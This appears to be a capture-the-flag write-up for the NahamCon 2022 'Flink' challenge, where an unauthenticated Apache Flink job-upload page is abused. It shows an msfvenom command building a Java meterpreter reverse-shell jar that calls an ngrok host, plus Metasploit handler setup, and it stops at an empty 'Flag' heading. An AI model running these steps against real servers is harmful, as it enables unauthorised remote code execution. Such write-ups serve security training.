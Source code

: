 # Flink

## Description
Author: @congon4tor#2334

Oooh no someone forgot to add auth in front of this application. Can you get the flag?

Press the Start button on the top-right to begin this challenge.
Connect with:

http://challenge.nahamcon.com:31020

Please allow up to 30 seconds for the challenge to become available.

## Solve
Apache Flink is a batch-processing software that runs Java programs. The "Submit New Job" tab allows us to upload a java executable and it will run on the machine. I will use `msfvenom` to craft a reverse shell:
```
user@arch:~/cyber/ctf/nahamcon-2022/babys-first-heartbleed$ msfvenom -p java/meterpreter/reverse_tcp -f jar LHOST=0.tcp.eu.ngrok.io LPORT=17496 -o shell.jar
Payload size: 5274 bytes
Final size of jar file: 5274 bytes
Saved as: shell.jar
```
Now I will set up the meterpreter in `msfconsole`
```
user@arch:~$ msfconsole 
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.2.27-dev                          ]
+ -- --=[ 2266 exploits - 1189 auxiliary - 404 post       ]
+ -- --=[ 948 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Use the resource command to run 
commands from a file
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD java/meterpreter/reverse_tcp
PAYLOAD => java/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 0.0.0.0:4444 
```

## Flag